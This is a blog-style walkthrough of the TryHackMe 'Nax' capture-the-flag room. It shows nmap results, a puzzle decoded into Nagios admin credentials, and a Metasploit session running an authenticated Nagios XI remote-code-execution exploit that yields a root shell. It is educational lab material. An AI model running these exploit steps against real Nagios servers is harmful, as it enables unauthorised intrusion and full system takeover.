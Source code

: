 ```yaml
---
layout: post
title: THM Nax writeup
date: 2022-06-18T19:22:24.527Z
---
```

After lunching the vm i started doing some enumeration, port scanning and fuzzing

```
# Nmap 7.80 scan initiated Sun Jun 19 16:46:08 2022 as: nmap -sC -sV -oN nmap/results -v nax.thm
Nmap scan report for nax.thm (10.10.55.121)
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| tls-alpn: 
|_  http/1.1
```

i found 5 ports open, but the only interesting one here is port 80 which is the webserver, i also did some fuzzing with gobuster but it didn't find actually something useful and so i looked at the website itself

![](/images/uploads/9s.png)

nothing interesting except those periodic table elements where if you get the atomic values of each element you will get this

```
47 80 73 51 84 46 80 78 103
```

which looks like ascii values and by using an online converter from ascii to text you will get `/PI3T.PNg` which is the answer for the sercret file 

by opening that image you will get this 

![](/images/uploads/9d.png)

download that image and check its exif data 

```
exiftool PI3T.PNg
```

and here you will find the owner of the image

looking at the image it looks like piet programming language which decoded can show probably interesting information

i installed [npiet](https://www.bertnase.de/npiet/) and then ran 

```
./npiet PI3T.ppm -e 1000
```

which gives `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` probably user and password

after doing a small reserach i found this interesting [exploit](https://www.exploit-db.com/exploits/48191) which requires user and password that we have, then start metasploit

```
msfconsole
```

```
Msf6> use exploit/linux/http/nagios_xi_authenticated_rce
Msf6> options
Msf6> set PASSWORD n3p3UQ&9BjLp4$7uhWdY
Msf6> set USERNAME nagiosadmin
Msf6> set RHOSTS nax.thm
Msf6> set LHOSTS YOUR_IP
Msf6> run
```

and after running the exploit you will get a root shell where you can get both the flags